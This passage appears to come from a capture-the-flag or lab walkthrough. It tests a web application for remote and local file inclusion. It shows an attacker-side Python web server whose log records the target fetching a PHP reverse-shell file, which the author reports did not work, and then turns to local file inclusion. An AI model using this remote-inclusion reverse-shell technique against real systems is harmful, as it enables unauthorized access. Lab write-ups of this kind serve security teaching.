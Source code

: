 ![](media/b98b4f5533d91df9431f784c92edb641.png)

The above request looks like it can be a Local or a Remote File Inclusion.

Low Privilege Exploitation
--------------------------

Let’s try to go the easier way first and get a reverse shell with RFI.

To test this out, a webserver needs to be running on the attacker machine.

One can simply use python SimpleHTTPServer:

lifesfun:/var/www/html\# python -m SimpleHTTPServer 80

Serving HTTP on 0.0.0.0 port 80 ...

192.168.211.150 - - [26/Jan/2020 20:40:27] "GET /php-reverse-shell.php HTTP/1.0"
200 -

192.168.211.150 - - [26/Jan/2020 20:40:48] "GET /php-reverse-shell.php HTTP/1.0"
200 -

However, the reverse shell didn't work.

#### Local File Inclusion

If RFI did not work, we can further test for LFI.

Let's explore admin.php's source code.

![](media/a21ecb6ba67b9ddb282a18f42439a580.png)

